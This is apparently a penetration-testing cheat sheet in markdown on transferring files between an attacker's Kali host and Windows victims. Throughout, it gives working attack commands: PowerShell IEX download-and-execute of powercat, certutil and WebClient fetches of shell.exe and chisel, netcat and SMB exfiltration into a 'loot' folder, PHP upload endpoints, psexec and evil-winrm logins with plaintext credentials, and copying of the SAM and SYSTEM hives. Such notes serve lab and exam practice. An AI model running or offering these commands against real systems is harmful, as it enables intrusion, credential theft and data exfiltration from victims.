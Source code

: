 # Transferring Files

Nothing is 100% bullet-proof. This is why I have several options to accomplish this.
1- As already mentioned, impacket-smbserver -smb2support test . is gold.
2- python -m pyftpdlib -w will spawn a ftp server on you kali. use the ftp command on windows to transfer the file(s).
3- On Kali: nc -lvp 4444 > TransferedFile on Windows: nc.exe <kali_ip> 4444 -w 5 < FileToTransfer
4- Using powercat + powershell. Host powercat.ps1(link: https://github.com/besimorhino/powercat/blob/master/powercat.ps1) in a webserver on the attacker machine. Execute powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://kali-ip/powercat.ps1');powercat -l -p 4444 -i C:\Users\test\FiletoTransfer" On kali: wget http://windows-ip:4444/FileToTransfer
5- Host the below php on a php-enabled webserver on kali:

<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>

Use a webbrowser on the victim to access the page and upload the desired file or use the below powershell to accomplish the same:

powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')


### Powershell Linux to Windows
````
(new-object System.Net.WebClient).DownloadFile('http://192.168.119.138:8000/chisel.exe','C:\Windows\Tasks\chisel.exe')
````
### SMB Linux to Windows
````
impacket-smbserver -smb2support Share .
cmd.exe /c //<your kali IP>/Share/<file name you want>
````
````
/usr/local/bin/smbserver.py -username df -password df share . -smb2support
net use \\<your kali IP>\share /u:df df
copy \\<your kali IP>\share\<file wanted>
````
````
impacket-smbserver -smb2support Share .
net use \\<your kali IP>\share
copy \\<your kali IP>\share\whoami.exe
````
### Windows http server Linux to Windows
````
python3 -m http.server 80
certutil -urlcache -split -f http://<your kali IP>/shell.exe C:\\Windows\temp\shell.exe
````
````
Invoke-WebRequest -Uri http://10.10.93.141:7781/winPEASx64.exe -OutFile wp.exe
````
#### Errors
````
Access is denied. In this case try Invoke-WebRequest for powershell
````
### SMB Shares Windows to Windows
````
In this situation we have logged onto computer A
sudo impacket-psexec Admin:'password123'@192.168.203.141 cmd.exe
C:\Windows\system32> ipconfig
 
Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 192.168.203.141
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.203.254

Ethernet adapter Ethernet1:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 10.10.93.141
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . :
   
 Via Computer A we pivot to Computer B (internal IP) with these creds
 proxychains evil-winrm -u celia.almeda -p 7k8XHk3dMtmpnC7 -i 10.10.93.142
````
#### Accessing $C Drive of Computer A
````
*Evil-WinRM* PS C:\windows.old\Windows\system32> net use * \\10.10.93.141\C$ /user:Admin password123
````
#### Copying over files
````
*Evil-WinRM* PS C:\windows.old\Windows\system32> xcopy C:\windows.old\Windows\system32\SYSTEM Z:\
*Evil-WinRM* PS C:\windows.old\Windows\system32> xcopy C:\windows.old\Windows\system32\SAM Z:\
````
### SMB Server Bi-directional
````
impacket-smbserver -smb2support Share .
smbserver.py -smb2support Share .
mkdir loot #transfering loot to this folder
net use * \\192.168.119.183\share
copy Z:\<file you want from kali>
copy C:\bank-account.zip Z:\loot #Transfer files to the loot folder on your kali machine
````
#### Authenticated
````
You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.
````
````
impacket-smbserver -username df -password df share . -smb2support
net use \\10.10.16.9\share /u:df df
copy \\10.10.16.9\share\<file wanted>
````

### PHP Script Windows to Linux
````
cat upload.php
chmod +x upload.php
````
````
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
````
````
sudo mkdir /var/www/uploads
````
````
mv upload.php /var/www/uploads
````
````
service apache2 start
ps -ef | grep apache
`````
````
powershell (New-Object System.Net.WebClient).UploadFile('http://<your Kali ip>/upload.php', '<file you want to transfer>')
````
````
service apache2 stop
````
